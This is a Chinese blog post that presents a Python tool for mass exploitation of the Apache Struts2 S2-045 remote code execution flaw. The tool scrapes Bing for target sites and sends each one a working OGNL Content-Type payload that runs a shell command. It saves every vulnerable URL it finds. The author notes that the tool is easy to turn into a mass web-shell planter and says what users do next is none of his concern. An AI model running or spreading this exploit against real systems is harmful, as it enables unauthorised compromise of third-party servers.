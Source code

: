 ```yaml
---
title: s2-045漏洞批量检测工具
date: 2017-03-07 21:28:53
tags:
- Tools
- Hacker
categories:
- Tools
---
```


今天晚上看老铁们在群里就这个st2-045漏洞讨论得火热，个人不太喜欢日站，本来想直接写个批量挂马的东西，但是想想还是算了，如果你有兴趣，改改也很容易，反正不关我的事

测试图
![TIM图片20170307212124.png](https://ooo.0o0.ooo/2017/03/07/58beb8f48f7df.png)
<!--more-->

**2017-3-8更新**
- 增加了对.do关键词的支持，并且支持任何关键词了，之前我只考虑到了.action关键词并且写死了规则，py版本已经更新，~~win版的exe未更新，需要的自行用pyinstaller打包为exe~~
- 之前采用whoami如果返回200状态码就判断存在漏洞，但是现在很多已经修复了，导致访问之后依旧会跳到正常页面返回200状态码，于是我改了一下判断，执行命令echo xxxx，如果返回结果中含有xxxx就证明漏洞存在
- win版exe已经打包
- **重要：建议大家都使用py版本，经过群友测试，exe版本对中文关键词的支持不太好，会出现错误，如果使用上有问题可评论**
- **exe版本会出现扫描过慢的情况，强烈建议py版本，鉴于有些朋友说不会配置python环境，我在下面给出了例子**
- **有些朋友说自定义关键字字典出错，这里要提一句，你的字典txt的编码需要是utf-8，有些东西因为写的比较快没考虑太全，见谅**
![TIM图片20170308132948.png](https://ooo.0o0.ooo/2017/03/08/58bf96eadc438.png)


**依赖包的安装**
```bash
//首先你需要安装一个python，在安装图中记得把有pip的选项和add python to path类似的选项勾选上，然后安装完成后执行python -version和pip
//如果执行python -version提醒你有问题，试着重启一下cmd或者电脑，或者检查你的path环境变量下有没有python的安装的路径，没有的话就加上
//如果正常证明环境安装成功，如果执行pip提醒你没有pip，就把你python安装路径下的Scripts目录加到path环境变量，然后在命令行在执行以下代码
pip install requests
pip install beautifulsoup4
```

对于此脚本所放置文件夹下必须有keyword.txt用来存放一行行的关键词
最开始是打算直接全部读取然后一个一个跑，不过感觉时间太漫长，测试时间太久
后来改成关键词就是自己输入，但是又感觉太麻烦
然后就变成了现在的读取关键词然后标号直接输入序号就可以
途中遇到了有的网址直接拒绝访问导致报错，还有的超时一直不返回报文，这些都解决了，个人测试的结果还可以，结果保存在一个txt下，至于你想再干些什么，不关我的事情了

**说明**
例子：
```bash
python s2-045.py 9 10
```
第一个参数是你的文件名，第二个是关键词所对应的序号，第三个是你需要爬行的页数
序号与关键词的对应，可以直接运行`python s2-045.py`就可以产看帮助
脚本采用的bing搜索引擎，**文件我会打包在下面**


上代码,**python2和3通用**

```python
# encoding:utf-8
import sys,requests
from bs4 import BeautifulSoup

keyword = {}
with open("keyword.txt") as f:
    i = 0
    for keywordLine in f:
        keyword[str(i)] = keywordLine.strip()
        i += 1

usage = '''
usage : python s2-045.py 0 10

first parameter is your filename
second parameter is your keyword's number which will be used by Bing
Third parameter is the page number you want to crawl\n'''

def poc(actionURL):
    data = '--447635f88b584ab6b8d9c17d04d79918\
    Content-Disposition: form-data; name="image1"\
    Content-Type: text/plain; charset=utf-8\
    \
    x\
    --447635f88b584ab6b8d9c17d04d79918--'
	
    header = {
        "Content-Length" : "155", 
        "User-Agent" : "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36", 
        "Content-Type" : "%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo hereisaexp').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}", 
    }
    try:
        request = requests.post(actionURL, data=data, headers=header, timeout = 10)
    except:
        return "None", "Refused"
    return request.text, request.status_code

def returnURLList():
    keywordsBaseURL = 'http://cn.bing.com/search?q=' +keyword[sys.argv[1]]+ '&first='
    n =0
    i = 1
    while n < int(sys.argv[2]):
        baseURL = keywordsBaseURL + str(i)
        try:
            req = requests.get(baseURL)
            soup = BeautifulSoup(req.text, "html.parser")
            text = soup.select('li.b_algo > h2 > a')
            if '.action' in keyword[sys.argv[1]]:
                standardURL = [url['href'][:url['href'].index('.action')]+'.action' for url in text if '.action' in url['href']]
            elif '.do' in keyword[sys.argv[1]]:
                standardURL = [url['href'][:url['href'].index('.do')]+'.do' for url in text if '.do' in url['href']]
            else:
                standardURL = [url['href'] for url in text]
        except:
            print("HTTPERROR")
            continue
        i += 10
        n += 1
        yield standardURL

def main():
    if len(sys.argv) != 3:
        print(usage)
        for k,v in keyword.items():
            print("%s is %s"%(k, v))
        sys.exit()

    for urlList in returnURLList():
        for actionURL in urlList:
            text, code = poc(actionURL)
            if 'hereisaexp' in text:
                print(str(code) + "----Successful----" + actionURL + '\n')
                with open("AvailableURL.txt","a") as f:
                    f.write(actionURL+'\n')
            else:
                print(str(code)+'----'+actionURL+'\n')

if __name__ == '__main__':
    main()
```

**[下载地址](http://file.codecat.one)**

**打包了win版，大家可以直接使用，例如在该exe目录下执行~~（更新的并未打包出exe，如有需要可以自行用pyinstaller打包）~~**
```bash
s2-045.exe 9 10
```
**其他用法参照上面**
**转载请注明出处**
